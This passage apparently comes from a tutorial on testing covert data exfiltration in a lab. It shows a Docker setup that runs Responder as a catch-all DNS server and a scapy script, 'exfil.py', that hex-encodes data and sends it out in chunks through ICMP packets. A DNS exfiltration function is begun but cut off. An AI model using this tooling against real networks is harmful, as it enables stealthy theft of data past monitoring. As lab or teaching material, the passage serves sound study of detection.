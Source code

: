 ```python
RUN chmod +x /run.sh

ENTRYPOINT ["/run.sh"]

And the run.sh script:


#!/bin/sh

INTERFACE=$(ip a | grep BROADCAST | awk '{print $2}' | sed 's/@.*$//')
cd /responder && ./Responder.py -I $INTERFACE -wrf


Time to build and start our docker:


$ sudo docker build . -t responder && sudo docker run --rm --name responder -t responder

You should got something like that:

Fig 1: Responder up

Fig 1: Responder up
2. Client side

For the client, basically your host, you can use the following python script (exfil.py) to generate the malicious traffic:


#!/usr/bin/python3
#-*- coding: utf-8 -*-

from scapy.all import *
import binascii
import base64

destIP = "172.17.0.2"

'''
Exfiltration with ICMP

@param mesg: Input to send through ICMP - C{bytes}
@return: No return, sends packets.
'''
def ping_exf(mesg):
    hex_mesg = str(binascii.hexlify(bytes(mesg, 'utf8')))[2:-1] # Removing of b' at start and ' at end
    n = 16 # Size of block
    list_split = [hex_mesg[i:i+n] for i in range(0, len(hex_mesg), n)] # Split string into list
    for i in range(0,len(list_split)):
        print(list_split[i])
        send(IP(dst=destIP)/ICMP()/list_split[i])

'''
Exfiltration with DNS A requests. Send an archive / file or wathever
splitted into 20 char / packet.
Don't forget to put a responder server on the target. 
Responder will up a DNS server that accept all requests, even wrong one.

@param mesg: Input to send via DNS A requests - C{bytes}
@return: No return, sends packets.
'''
def dns_exf(mesg):
```